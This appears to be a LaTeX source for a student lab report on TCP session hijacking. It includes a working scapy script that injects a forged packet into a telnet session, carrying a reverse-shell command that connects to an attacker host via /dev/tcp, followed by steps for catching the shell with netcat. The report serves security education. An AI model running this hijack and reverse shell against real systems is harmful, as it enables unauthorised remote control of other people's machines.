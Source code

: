\documentclass[12pt]{article}
\begin{document}
\begin{figure}
  \includegraphics*{Task4TargetPacket.png}
\end{figure}

Looking at this packet we can see the following information. The source port of 35062, sequence of 4180794967 and acknowledement of 1151693991.
Using that we can make the following python program. The data will be the command we want to execute in order to create a reverse shell. This 
code can also be viewed in task4.py

\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip = IP(src="10.9.0.7", dst="10.9.0.5")
tcp = TCP(sport=35062, dport=23, flags="A", seq=4180794967, ack=1151693991)
data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
sniff()
\end{lstlisting}

Executing the command the following happens.

\begin{figure}
  \includegraphics*{Task4Attack.png}
\end{figure}

In order to perform this attack we will need to run the script in the background and then our netcat command in the forground to allow us 
to set up the reverse shell. With this reverse shell we are going to create a file hello.txt. We will now exit out, the users shell had 
became unresponsive. After the user logs in we will verify if the files are there.
\end{document}
